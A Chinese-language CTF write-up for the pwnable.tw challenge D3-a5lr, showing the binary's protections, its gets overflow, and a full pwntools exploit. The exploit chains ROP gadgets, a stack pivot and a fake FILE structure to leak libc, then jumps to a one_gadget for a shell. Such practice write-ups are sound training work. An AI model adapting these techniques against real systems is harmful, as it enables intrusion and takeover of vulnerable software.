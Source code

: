 ```yaml
---
layout:     post
title:      "pwnable.tw之D3-a5lr"
subtitle:   " 花式ROP "
date:       2019-01-04 12:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - pwnable.tw


---
```


## 程序分析

```python

[*] '/home/giantbranch/D3-a5lr'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c

push    rbp
mov     rbp, rsp
sub     rsp, 10h
lea     rax, [rbp-0x10]
mov     rdi, rax
mov     eax, 0
call    _gets
mov     eax, 0
leave
retn

```
## 漏洞利用

此题的关键是，利用`call    qword ptr [r12+rbx*8]` 这段gadget  , 来call `_IO_file_write` 泄露地址。

在做完stack pivot后，把栈地址迁移到可bss段控制区域，再次做一次gets，这时原本的stack上方会有一些与gets调用相关的libc地址。

![](/img/pic/D3-a5lr/pic1.jpg)

经过调试，上面在做gets时，同时向libc地址附近写入构造的数据

![](/img/pic/D3-a5lr/pic2.jpg)

我们要做的就是控制图中libc地址的上下方，目的是将libc地址送入r12，计算好的偏移地址`(address - stdin) / 8`填入rbx，这样就会`call [address]` ,rbp要设置为rbx+1这样才能保证call以后继续执行后面的rop。我们试图在libc中找到存在`_IO_file_write`的 `address`

![](/img/pic/D3-a5lr/pic3.jpg)


`IO_file_write`第一个参数是`_IO_FILE_`指针，为了调用write,有一处验证`fp->_flags2 & 2` ,另外write 第一个参数要为 1，所以我们在构造`fake_io_file`的时候，要把fileno设为1（stdout），flags2设置为2.

```c
__int64 __fastcall IO_file_write(_IO_FILE_ *a1, __int64 a2, __int64 a3)
{
  _IO_FILE_ *fp; // r14
  __int64 v4; // rbp
  __int64 v5; // r12
  __int64 v6; // rbx
  __int64 v7; // rdi
  __int64 v8; // rax
  __int64 result; // rax
  __int64 v10; // rdx

  fp = a1;
  if ( a3 <= 0 )
  {
    result = 0LL;
  }
  else
  {
    v4 = a2;
    v5 = a3;
    v6 = a3;
    do
    {
      if ( fp->_flags2 & 2 )
      {
        v7 = (signed int)fp->_fileno;
        v8 = 1LL;
        __asm { syscall; LINUX - }
      }
      else
      {
        v8 = write((unsigned int)fp->_fileno, v4, v6);
      }
      if ( v8 < 0 )
      {
        LODWORD(fp->_flags) |= 0x20u;
        result = v5 - v6;
        goto LABEL_6;
      }
      v6 -= v8;
      v4 += v8;
    }
    while ( v6 > 0 );
    result = v5 - v6;
  }
LABEL_6:
  v10 = fp->_offset;
  if ( v10 >= 0 )
    fp->_offset = result + v10;
  return result;
}

```


## EXP

```python
from pwn import*

context(os='linux', arch='amd64')

#env = {}
#env = {'LD_PRELOAD' : './libc_64.so.6'}
#p = process('./D3-a5lr', env=env)


p=remote("chall.pwnable.tw",10402)

libc = ELF('./libc_64.so.6')
elf = ELF('./D3-a5lr')


def g(p):
    gdb.attach(p)
    raw_input()

bss = 0x601010
gets_plt=0x400430
gets_got=0x600ff0
pop_rdi = 0x4005c3
pop_rsp_r13_r14_r15 = 0x00000000004005bd
pop_rbx_rbp_r12_r13_r14_r15 = 0x4005ba
pop_r12_r13_r14_r15 = 0x4005bc
pop_rsi_r15 = 0x00000000004005c1
pop_r13_r14_r15 = 0x4005be
mrdx13_mrsi14_mrdi15_call = 0x4005a0 # mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword ptr [r12 + rbx*8]
call_r12_plus_rbx_mul_8 = 0x4005a9
main = 0x400536

buf = bss + 0x100
buf1 = bss+ 0x200 

fake_file = "\x00"*0x70+p64(1)+p64(2)
fake_file =fake_file.ljust(0xe0,"\x00")

rop1=p64(pop_rdi)+p64(buf1)+p64(gets_plt)+p64(main)
p.sendline("a"*24+rop1)

call_rop=p64(pop_r13_r14_r15)+p64(0x8)+p64(gets_got)+p64(buf1)+p64(mrdx13_mrsi14_mrdi15_call)+"p"*0x38+p64(main)
p.sendline(fake_file+call_rop)

rop2=p64(pop_rdi)+p64(buf)+p64(gets_plt)+p64(pop_rsp_r13_r14_r15)+p64(buf)
p.sendline('b'*24 + rop2)

rop3="c"*8 + p64(pop_rsp_r13_r14_r15) + p64(buf1 + 0xe0 - 0x18)+ p64(pop_rdi)+p64(buf-0x38)+p64(gets_plt)+p64(pop_rsp_r13_r14_r15)+p64(buf-0x50)
p.sendline(rop3)

p.sendline(p64(pop_rbx_rbp_r12_r13_r14_r15)+ p64(0xfffffffffffffdeb) + p64(0xfffffffffffffdeb+1))

leak_libc = u64(p.recv(8))
libc = leak_libc - libc.symbols['gets']
print "libc : " +hex(libc)
one_gadget=libc + 0xf0567	

p.sendline('d'*24 + p64(one_gadget))

p.interactive()



```

运行结果：

![](/img/pic/D3-a5lr/pic4.jpg)

>[下载地址](https://github.com/yxshyj/project/tree/master/pwn/D3-a5lr)